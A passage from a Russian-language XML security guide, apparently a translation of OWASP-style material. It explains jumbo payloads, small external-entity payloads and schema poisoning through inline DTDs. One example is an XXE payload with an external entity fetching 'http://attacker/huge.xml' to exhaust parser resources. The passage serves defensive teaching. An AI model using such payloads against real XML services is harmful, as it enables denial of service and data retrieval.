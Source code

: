 В большинстве случаев общим результатом будет огромный документ. Вот краткий пример того, как это выглядит:

```xml
<SOAPENV:ENVELOPE XMLNS:SOAPENV="HTTP://SCHEMAS.XMLSOAP.ORG/SOAP/ENVELOPE/"
                  XMLNS:EXT="HTTP://COM/IBM/WAS/WSSAMPLE/SEI/ECHO/B2B/EXTERNAL">
 <SOAPENV:HEADER LARGENAME1="LARGEVALUE"
                 LARGENAME2="LARGEVALUE2"
                 LARGENAME3="LARGEVALUE3" …>
 ...
```

#### "Малые" Jumbo пейлоады

**Следующий пример представляет собой документ очень небольшого размера, но результаты его обработки могут быть аналогичны результатам обработки традиционных больших объемов пейлоадов.** Цель такой небольших пейлоадов заключается в том, что она позволяет злоумышленнику отправлять множество документов достаточно быстро, чтобы заставить приложение использовать большую часть или все доступные ресурсы:

```xml
<?xml version="1.0"?>
<!DOCTYPE root [
 <!ENTITY file SYSTEM "http://attacker/huge.xml" >
]>
<root>&file;</root>
```

### Заражение схемы

**Когда злоумышленник способен внести изменения в схему, это может привести к многочисленным последствиям с высокой степенью риска. В частности, последствия будут более опасными, если в схемах используется [DTD](https://www.w3schools.com/xml/xml_dtd_intro.asp) (например, поиск файлов, отказ в обслуживании).** Злоумышленник может воспользоваться этим типом уязвимости в различных сценариях, всегда в зависимости от расположения схемы.

#### Заражение локальной схемы

**Заражение локальной схемы происходит, когда схемы доступны на одном и том же хосте, независимо от того, встроены они в один и тот же XML-документ или нет.**

##### Встроенная схема

**Наиболее тривиальный тип заражения схемы происходит, когда схема определена в одном и том же XML-документе.** Рассмотрим следующий неосознанно уязвимый пример, предоставленный W3C :

```xml
<?xml version="1.0"?>
<!DOCTYPE note [
 <!ELEMENT note (to,from,heading,body)>
 <!ELEMENT to (#PCDATA)>
 <!ELEMENT from (#PCDATA)>
 <!ELEMENT heading (#PCDATA)>
 <!ELEMENT body (#PCDATA)>
]>
<note>
 <to>Tove</to>
 <from>Jani</from>
 <heading>Reminder</heading>
 <body>Don't forget me this weekend</body>
</note>
```
